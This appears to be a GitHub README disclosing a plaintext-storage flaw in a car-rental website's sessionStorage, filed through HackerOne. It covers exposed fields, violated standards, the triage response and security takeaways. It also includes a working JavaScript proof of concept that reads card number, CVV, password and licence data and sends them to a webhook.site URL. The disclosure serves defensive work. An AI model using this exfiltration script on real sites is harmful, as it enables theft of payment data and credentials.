 🛑 Client-Side Sensitive Data Exposure on Hertz.com – Full Credit Card, Password & ID Stored in Plaintext

Real-world disclosure of a critical web security flaw on Hertz.com: full credit card details, login credentials, and ID numbers stored in plaintext in the browser’s memory. Discovered and responsibly disclosed via Hertz’s public VDP on HackerOne.

⸻

📌 Summary

This repository documents a critical vulnerability discovered on hertz.com, where highly sensitive user data was stored in plaintext in the browser using sessionStorage and cookies, in violation of industry standards.

Exposed Data:
	•	Full credit card number (PAN), CVV, expiration date
	•	Driver’s license number
	•	Plaintext password
	•	Full user profile (name, email, phone, address)

This data was:
	•	Not encrypted, hashed, or protected
	•	Persisted across multiple authenticated pages
	•	Accessible to JavaScript, browser extensions, and DevTools
	•	Exfiltratable using a minimal PoC without XSS or elevated privileges

⸻

🔍 Technical Overview

After user login, the browser’s sessionStorage contained the following plaintext fields:

creditCardNumber, creditCardExpireMonth, creditCardExpireYear,
cvvNumber, skinnyPassword, driversLicense, personalAddress1,
firstName, lastName, email, phone

Any JavaScript running in the session context (e.g., from injected third-party libraries, browser extensions, or future XSS) could silently access and exfiltrate this data.

⸻

🧪 Proof of Concept

A minimal exfiltration script (executed in the browser console or by a malicious extension):

var stealthImage = new Image();
stealthImage.src = "https://webhook.site/xxx?" +
  "cc=" + encodeURIComponent(sessionStorage.getItem("creditCardNumber")) +
  "&cvv=" + encodeURIComponent(sessionStorage.getItem("cvvNumber")) +
  "&expMonth=" + encodeURIComponent(sessionStorage.getItem("creditCardExpireMonth")) +
  "&expYear=" + encodeURIComponent(sessionStorage.getItem("creditCardExpireYear")) +
  "&dl=" + encodeURIComponent(sessionStorage.getItem("driversLicense")) +
  "&pwd=" + encodeURIComponent(sessionStorage.getItem("skinnyPassword")) +
  "&email=" + encodeURIComponent(sessionStorage.getItem("email")) +
  "&phone=" + encodeURIComponent(sessionStorage.getItem("phone")) +
  "&url=" + encodeURIComponent(window.location.href);
document.body.appendChild(stealthImage);

📤 Data was successfully exfiltrated using Webhook.site, confirming real-world impact.

⸻

📜 Standards Violated
	•	🔴 PCI DSS 3.2 – Storing full credit card details and CVV post-authentication is strictly prohibited
	•	🟠 OWASP Secure Storage – Recommends avoiding storage of sensitive data in browser-accessible memory
	•	🔵 GDPR / CCPA – Mandate the secure storage and processing of personal and financial data

⸻

🔁 Vendor Response

The issue was responsibly disclosed via the Hertz Vulnerability Disclosure Program (VDP) on HackerOne.

Initial triage feedback categorized the issue as Informative, stating:

“The present issue appears to be a self-XSS, which is not directly exploitable or would require convincing the user to copy/paste the JavaScript payload into the vulnerable field.”
— HackerOne Analyst

While this rationale reflects a focus on exploitability in the current session, the presence of this sensitive data in browser-accessible memory constitutes a severe architectural vulnerability, especially when combined with potential future client-side injection points.

A request for re-evaluation has been submitted, highlighting a successful PoC and partial post-report mitigation observed.

⸻

🔐 Security Takeaways

✔️ Never store sensitive information like credit card data or plaintext passwords on the client side
✔️ Treat all client-side storage as exposed
✔️ Don’t rely on “no XSS now = no risk” — threat landscapes evolve
✔️ Implement secure-by-design architecture from the beginning

⸻

👤 About the Researcher

cybernomad42
	•	Freelance pentester & bug bounty hunter
	•	Security consultant focused on client-side flaws, web app security, and compliance
	•	LinkedIn: linkedin.com/in/patrykkieszek
	•	HackerOne: hackerone.com/cybernomad42

⸻

📂 Repository Tags

hertz bug-bounty pentesting sessionStorage plaintext-data credit-card-leak
client-side-vulnerability pci-dss owasp javascript-security cybersecurity